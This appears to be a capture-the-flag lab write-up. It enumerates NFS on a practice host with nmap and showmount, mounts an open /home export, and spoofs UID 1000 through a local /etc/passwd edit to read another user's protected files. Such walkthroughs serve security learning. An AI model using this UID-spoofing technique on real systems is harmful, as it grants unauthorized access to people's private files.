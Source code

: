 And then "nmap" to check which port is our new target.

```
nmap -p 2049,795,111 -sV -sC 10.10.10.127

PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2 (RPC #100000)
795/tcp  open  mountd  1-3 (RPC #100005)
2049/tcp open  nfs     2-3 (RPC #100003)
```

The "nfs" service was the most interesting service. Let's see if there's an open share for us!

[[Top]](#top)

# Weaponize

```
showmount -e 10.10.10.127

Export list for 10.10.10.127:
/home (everyone)
```

With `showmount` I was able to find an open share. To check it you might need to install some nfs-tools to do so. Google is your friend. :)

```
mkdir fortune
mount -o hard,nolock 10.10.10.127:/home fortune

cd fortune
ls -la

drwxr-xr-x 5 root    root     512 Nov  3 02:19 .
drwxr-xr-x 3 root    root    4096 Apr 21 13:56 ..
drwxr-xr-x 5 1001    1001  512 Nov  3 21:29 bob
drwxr-x--- 3 1000    1000  512 Nov  6 04:02 charlie
drwxr-xr-x 2 1002    1002  512 Nov  3 03:39 nfsuser
```
Bummer. We can't access `charlies` folder. Or can we?
When we check the `UID/GUID` we just see a number. What would happen
when we create a new user with `UID/GUID` of `1000` on our own system?


[[Top]](#top)

# Exploit

```
$ adduser hacker
$ passwd hacker -> hacker
$ nano /etc/passwd
$ hacker:x:1000:1000::/home/hacker:/bin/sh
$ su hacker
$ cd /fortune/charlie

$ ls
mbox  user.txt
```
